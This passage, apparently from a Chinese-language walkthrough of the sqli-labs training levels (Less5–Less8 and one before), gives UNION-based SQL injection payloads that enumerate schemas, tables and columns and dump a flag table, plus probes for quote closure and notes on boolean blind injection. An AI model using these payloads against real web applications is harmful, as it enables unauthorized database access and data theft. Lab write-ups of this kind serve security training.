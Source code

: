 注入语句

```sql
?id=-1") union select 1,2,group_concat(schema_name) from information_schema.schemata--+
?id=-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='ctftraining'--+
?id=-1") union select 1,2,group_concat(column_name) from information_schema.columns where table_name='flag'--+
?id=-1") union select 1,2,flag from ctftraining.flag--+
```

### Less5-Less8（布尔盲注）
#### Less5：
首先可以看到这个题是没有明确回显的，只知道对错，不知道内容

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732063901140-e0c0c8d3-2adb-435d-a2e2-e43983702cac.png)

首先先看一下闭合形式，是单引号![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732063992855-3fdfd596-2b52-4339-b9c4-b40c375d0a28.png)

使用布尔盲注

具体不说了，上面写过了。

#### **Less6：**
**双引号闭合，不多说了**

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732095113030-f80cdfab-e15b-4c32-861f-0f99dccb5a5e.png)

#### Less7：
报错信息被改了

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732095376281-472ccce0-c7b4-4a4a-8782-bb0748370732.png)

##### 第一步（测试单双引号）
```sql
# 报错
?id=1'
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732095415695-3f7f6daa-cf34-42e8-8148-d3a9a87f0ff2.png)

```sql
# 不报错
?id=1"
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732095468890-6bda5196-8543-4265-8e51-91169ca12679.png)

##### **第二步（对单引号继续测试）**
```sql
# 报错
?id=1'--+
```
